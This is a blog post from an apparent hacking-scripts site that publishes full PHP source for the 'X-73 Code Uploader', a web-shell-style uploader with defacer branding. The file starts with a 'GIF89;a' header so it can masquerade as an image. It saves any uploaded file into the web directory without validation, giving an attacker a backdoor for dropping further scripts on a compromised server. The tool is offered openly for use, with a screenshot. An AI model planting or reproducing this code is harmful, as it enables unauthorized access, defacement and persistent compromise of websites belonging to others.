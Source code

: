 ```yaml
---
id: 245
title: X-73 Code Uploader
author: admin
layout: post
guid: http://hackingscripts.com/?p=245
permalink: /x-73-code-uploader/
categories:
  - PHP
tags:
  - PHP
  - X-73
---
```

&#8211;==@[&#8211; X-73 CODE UPLOADER &#8211;]==&#8211;

### X-73 Code Uploader Source Code

{% highlight php %}GIF89;a
<?php
    $myUpload = new maxUpload(); 
    //$myUpload-&gt;setUploadLocation(getcwd().DIRECTORY_SEPARATOR);
    $myUpload-&gt;uploadFile();
?>
<?php
class maxUpload{
    var $uploadLocation;
    
    /**
     * Constructor to initialize class varaibles
     * The uploadLocation will be set to the actual 
     * working directory
     *
     * @return maxUpload
     */
    function maxUpload(){
        $this-&gt;uploadLocation = getcwd().DIRECTORY_SEPARATOR;
    }

    /**
     * This function sets the directory where to upload the file
     * In case of Windows server use the form: c:\\temp\\
     * In case of Unix server use the form: /tmp/
     *
     * @param String Directory where to store the files
     */
    function setUploadLocation($dir){
        $this-&gt;uploadLocation = $dir;
    }
    
    function showUploadForm($msg='',$error=''){
?>
       &lt;div id="container"&gt;
            &lt;div id="header"&gt;&lt;div id="header_left"&gt;&lt;/div&gt;
            &lt;div id="header_main"&gt;SUL-BAR LINK&lt;div id="header_right"&gt;&lt;/div&gt;&lt;/div&gt;
            &lt;div id="content"&gt;
<?php
if ($msg != ''){
    echo '&lt;p class="msg"&gt;'.$msg.'&lt;/p&gt;';
} else if ($error != ''){
    echo '&lt;p class="emsg"&gt;'.$error.'&lt;/p&gt;';

}
?>
&lt;body bgcolor="#000000"&gt;&lt;center&gt;&lt;div style="background-image:url(''); width="1040" height="710" class="shakeimage" onMouseOver="init(this);rattleimage()" onMouseOut="stoprattle(this);top.focus()" onClick="top.focus()" alt="" border="0"&gt;&lt;br&gt;&lt;div
id="example1"&gt;&lt;/div&gt;&lt;p id="example2"&gt;&lt;font face="Papyrus"; color="red"; size="6"&gt;&lt;br&gt;--==@[-- X-73 CODE UPLOADER --]==--

                &lt;form action="" method="post" enctype="multipart/form-data" &gt;
                     &lt;center&gt;
                         &lt;label&gt;File:
                             &lt;input name="myfile" type="file" size="30" /&gt;
                         &lt;/label&gt;
                         &lt;label&gt;
                             &lt;input type="submit" name="submitBtn" class="sbtn" value="Upload" /&gt;
                         &lt;/label&gt;
                     &lt;/center&gt;
                 &lt;/form&gt;
             &lt;/div&gt;
             &lt;div id="footer"&gt;&lt;a href="http://www.sekedar-online.com" target="_blank"&gt;Sulbar-Link&lt;/a&gt;&lt;/div&gt;
         &lt;/div&gt;
<?php
    }

    function uploadFile(){
        if (!isset($_POST['submitBtn'])){
            $this-&gt;showUploadForm();
        } else {
            $msg = '';
            $error = '';
            
            //Check destination directory
            if (!file_exists($this-&gt;uploadLocation)){
                $error = "The target directory doesn't exists!";
            } else if (!is_writeable($this-&gt;uploadLocation)) {
                $error = "The target directory is not writeable!";
            } else {
                $target_path = $this-&gt;uploadLocation . basename( $_FILES['myfile']['name']);

                if(@move_uploaded_file($_FILES['myfile']['tmp_name'], $target_path)) {
                    $msg = basename( $_FILES['myfile']['name']).
                    " File anda sukses di Upload!";
                } else{
                    $error = "Proses Upload terganggu!";
                }
            }

            $this-&gt;showUploadForm($msg,$error);
        }

    }

}
?>
{% endhighlight %}

### X-73 Code Uploader screenshot<figure id="attachment_434" style="width: 604px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader-1024x351.png" alt="X-73 code uploader screenshot" width="604" height="207" class="size-large wp-image-434" />][1]<figcaption class="wp-caption-text">X-73 code uploader screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader.png
